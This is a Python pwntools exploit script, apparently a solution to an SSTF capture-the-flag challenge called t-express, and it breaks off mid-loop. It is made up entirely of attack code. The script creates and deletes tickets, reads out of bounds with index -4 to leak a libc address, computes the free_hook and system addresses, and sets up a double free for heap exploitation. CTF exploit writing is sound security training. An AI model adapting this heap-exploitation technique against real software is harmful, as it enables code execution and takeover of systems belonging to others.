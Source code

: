 ```python
from pwn import*

#p = remote('t-express.sstf.site', '1337')
p = process('./target')
e = ELF('./target')

#context.log_level='debug'
#gdb.attach(p)

# init
p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', 'AAAA')
p.sendlineafter('Last name: ', 'AAAAAAAA')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '2')
p.sendlineafter('First name: ', 'BBBB')
p.sendlineafter('Last name: ', 'BBBB')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', 'CCCC')
p.sendlineafter('Last name: ', 'CCCC')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '2')

# leak libc
p.sendlineafter('choice: ', '2')
p.sendlineafter('Index of ticket: ', '-4')

p.recvuntil('|name |    ')
pad = u64(p.recv(4)+ b'\x00\x00\x00\x00')
p.recvuntil('   ')
leak = u64(p.recv(6)+ b'\x00\x00')
libc_base = leak-0x1ec643
log.info(hex(libc_base))

free_hook = libc_base + 0x1eeb28
log.info(hex(free_hook))

system = libc_base + 0x55410
log.info(hex(system))

# double free
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '2')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '3')

for i in range(0x20):
```